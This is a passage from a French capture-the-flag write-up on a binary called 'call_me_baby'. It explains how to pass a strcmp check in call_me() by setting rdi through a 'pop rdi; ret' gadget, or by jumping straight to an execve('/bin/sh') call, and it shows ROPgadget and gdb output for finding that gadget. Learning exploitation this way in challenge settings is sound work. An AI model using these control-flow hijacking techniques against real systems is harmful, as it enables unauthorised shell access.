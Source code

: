 On redirige bien le programme vers la fonction call_me(), mais ne passe pas la condition suivante :

```C
  iVar1 = strcmp((char *)&local_10,"baby");
  if (iVar1 == 0) {
```

Pour passer cette condition il faut que la variable local_10 prise en argument par la fonction call_me() soit égale à `baby`.  
  
Deux solutions possibles :
 - Soit modifier le registre pour passer `baby` en argument à la fonction call_me
 - Soit directement rediriger le programme vers l'instruction `execve("/bin/sh",(char **)0x0,(char **)0x0);`

(La deuxième solution est bien plus rapide, allez directement la voir si voulez la solution simple).

### Solution 1

Pour modifier rdi on peut utiliser [un gadget](./https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/gadgets), qui sont des instructions comme `pop rdi; ret` permettant de modifier le registre.

Utilison l'outil ROPgadgets pour en trouver :

```bash
$ ROPgadget --binary call_me_baby | grep 'rdi'
0x0000000000401165 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; ret
0x0000000000401168 : mov ebp, esp ; pop rdi ; ret
0x0000000000401167 : mov rbp, rsp ; pop rdi ; ret
0x000000000040116a : pop rdi ; ret
0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; ret
```

On trouve `pop rdi; ret` qui est exactement ce que l'on souhaite. Allons voir dans gdb :

```gdb
(gdb) x/5wi 0x000000000040116a
   0x40116a <gadgets+4>:	pop    %rdi
   0x40116b <gadgets+5>:	ret
   0x40116c <gadgets+6>:	nop
   0x40116d <gadgets+7>:	pop    %rbp
   0x40116e <gadgets+8>:	ret
(gdb) i func gadgets
all functions matching regular expression "gadgets":

non-debugging symbols:
0x0000000000401166  gadgets
(gdb) disas gadgets
dump of assembler code for function gadgets:
   0x0000000000401166 <+0>:	push   %rbp
   0x0000000000401167 <+1>:	mov    %rsp,%rbp
   0x000000000040116a <+4>:	pop    %rdi
   0x000000000040116b <+5>:	ret
   0x000000000040116c <+6>:	nop
   0x000000000040116d <+7>:	pop    %rbp
   0x000000000040116e <+8>:	ret
end of assembler dump.
```
